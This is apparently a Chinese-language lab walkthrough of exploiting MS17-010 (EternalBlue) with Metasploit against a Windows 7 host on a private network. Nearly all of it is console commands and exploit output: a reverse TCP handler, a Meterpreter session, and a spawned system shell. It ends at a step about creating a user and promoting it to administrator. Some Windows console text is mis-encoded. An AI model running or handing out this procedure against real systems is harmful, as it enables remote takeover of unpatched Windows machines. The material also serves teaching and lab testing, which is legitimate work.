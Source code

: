 ```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.1.128:4444 
[*] 192.168.1.7:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.1.7:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7600 x64 (64-bit)
[*] 192.168.1.7:445       - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.1.7:445 - The target is vulnerable.
[*] 192.168.1.7:445 - Connecting to target for exploitation.
[+] 192.168.1.7:445 - Connection established for exploitation.
[+] 192.168.1.7:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.1.7:445 - CORE raw buffer dump (27 bytes)
[*] 192.168.1.7:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 192.168.1.7:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 30                 sional 7600     
[+] 192.168.1.7:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.1.7:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.1.7:445 - Sending all but last fragment of exploit packet
[*] 192.168.1.7:445 - Starting non-paged pool grooming
[+] 192.168.1.7:445 - Sending SMBv2 buffers
[+] 192.168.1.7:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.1.7:445 - Sending final SMBv2 buffers.
[*] 192.168.1.7:445 - Sending last fragment of exploit packet!
[*] 192.168.1.7:445 - Receiving response from exploit packet
[+] 192.168.1.7:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.1.7:445 - Sending egg to corrupted connection.
[*] 192.168.1.7:445 - Triggering free of corrupted buffer.
[*] Sending stage (200262 bytes) to 192.168.1.7
[*] Meterpreter session 1 opened (192.168.1.128:4444 -> 192.168.1.7:49165 ) at 2022-03-27 01:46:05 -0400
[+] 192.168.1.7:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.7:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.7:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >



```  
1. GetShell。输入命令shell来让靶机反弹shell到当前窗口。GetShell成功。  
  
```
meterpreter > shell
Process 2684 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7600]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>



```  
1. 创建用户并提权为管理员。  
  